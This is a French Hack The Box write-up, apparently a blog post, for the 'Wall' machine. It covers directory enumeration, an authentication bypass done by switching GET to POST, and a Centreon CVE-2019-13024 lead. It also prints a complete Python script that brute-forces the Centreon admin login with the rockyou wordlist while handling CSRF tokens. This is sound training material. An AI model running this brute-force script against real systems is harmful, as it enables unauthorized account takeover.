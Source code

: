 ```yaml
---
layout: post
title: HTB - Wall
subtitle: Hack The Box - Linux Machine 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, Apache, Python, Centreon, BeautifulSoup]
comments: false
---
```



L'url http://10.10.10.157/ mène sur la page par défaut d'Apache sous Ubuntu

Nmap nous dit que les ports 22 ssh et 80 http sont ouverts

Énumérons les dossiers:

~~~
root@Host-001:~# dirb http://10.10.10.157

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  3 18:19:32 2019
URL_BASE: http://10.10.10.157/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.157/ ----
+ http://10.10.10.157/index.html (CODE:200|SIZE:10918)                         
+ http://10.10.10.157/monitoring (CODE:401|SIZE:459)                           
+ http://10.10.10.157/server-status (CODE:403|SIZE:300)                        
                                                                               
-----------------
END_TIME: Thu Oct  3 18:20:44 2019
DOWNLOADED: 4612 - FOUND: 3
~~~

Se rendre sur http://10.10.10.157/monitoring

Nous avons une authentification .htaccess

Bypasser l'authentification en utilisant POST à la place de GET dans la requête avec Burp

On est reconduit sur la page 

On tombe sur une page de login de Centreon v. 19.04.0 

Cette version de Centreon est vulnerable CVE 2019-13024:

- [https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024](https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024)
- [https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

Utilisons l'exploit pour cette CVE: [https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da](https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da)

Pour utiliser cet exploit il faut avoir les bons credentials. 

Les credentials par défault admin::centreon ne fonctionnent pas pour la page http. Idem root::centreon ne fonctionne pas pour la connection SSH. Ref: [https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html](https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html)

Brute-forcer les credentials avec Hydra. Faux positif pour le compte admin sur la page http.

Script maison bruteForceCentreon.py:

~~~
#!/usr/bin/python3

#Custom script to crack credentials from Centreon login form (HTB: Wall machine)
#Inspired from: https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da


import requests
import sys
import warnings
from bs4 import BeautifulSoup

fd = open("/usr/share/wordlists/rockyou.txt", "rb")
passwd_list = fd.readlines()
fd.close()

for password in passwd_list:

	print("[+] Trying:" + password)
	request = requests.session()
	print("[+] Retrieving CSRF token to submit the login form")
	page = request.get("http://10.10.10.157/centreon/index.php")
	html_content = page.text
	soup = BeautifulSoup(html_content)
	token = soup.findAll('input')[3].get("value")

	login_info = {
    		"useralias": "admin",
    		"password": password,
    		"submitLogin": "Connect",
    		"centreon_token": token
	}


	login_request = request.post("http://10.10.10.157/centreon/index.php", login_info)
	print("[+] Login token is : {0}".format(token))

	if "Your credentials are incorrect." not in login_request.text:
		print("[+] Logged In Sucssfully. Password is: " + password)
		exit()
	else:
		print("[-] Wrong credentials")
~~~

Lancer le script:

~~~
root@Host-001:~/Bureau# python bruteForceCentreon.py 
~~~

Résultat:

(...)

~~~
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 7335bffb040efca5cf401759956e8768
[-] Wrong credentials
[+] Trying:rock you

[+] Retrieving CSRF token to submit the login form
[+] Login token is : 06d5023d6c9d373d9e44aa0c4dae7a9a
[+] Logged In Sucssfully. Password is: rock you
~~~

On essaye de se loguer avec admin::rock you mais on tombe sur une erreur 403 

On modifie le script et on se rend compte que n'importe quel mdp avec un espace ou un # dedans renvoie une erreur 403

**Poursuivez avec :** 

[- Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)
[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
